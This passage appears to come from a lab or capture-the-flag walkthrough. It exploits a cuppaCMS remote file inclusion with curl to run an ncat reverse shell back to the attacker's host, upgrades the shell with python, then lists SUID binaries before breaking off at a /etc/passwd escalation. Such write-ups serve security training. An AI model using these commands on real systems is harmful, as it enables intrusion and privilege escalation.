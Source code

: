 We start a listener with **ncat** on port 443.

```console
root@kali:~$ nc -vlnp 443 --ssl
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: B8AD 2215 76EA E761 6B75 9B68 FB2A 48B2 7067 4C38
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```

Then we execute with curl the following request that will establish a connection with the attacking machine and execute the linux bash.

```console
root@kali:~$ curl -s "http://192.168.179.129/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=http://192.168.179.1/back.txt&cmd=ncat%20192.168.179.1%20443%20-e%20/bin/bash%20--ssl"
```

We got a shell with limited permissions and I used python to spawn a TTY shell, as shown below.

```console
root@kali:~$ nc -vlnp 443 --ssl
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: B8AD 2215 76EA E761 6B75 9B68 FB2A 48B2 7067 4C38
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.179.129.
Ncat: Connection from 192.168.179.129:39134.
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ uname -a
Linux bravery 3.10.0-862.3.2.el7.x86_64 #1 SMP Mon May 21 23:36:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation
### SUID Privileges

Listing SUID permissions, I found the **cat** command which is potentially dangerous, wich we will take advantage of to escalate privileges.

```console
bash-4.2$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/cp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/chage
...
```

Located in the directory **temp** redirect the content of **/etc/passwd** to a file in the current directory.
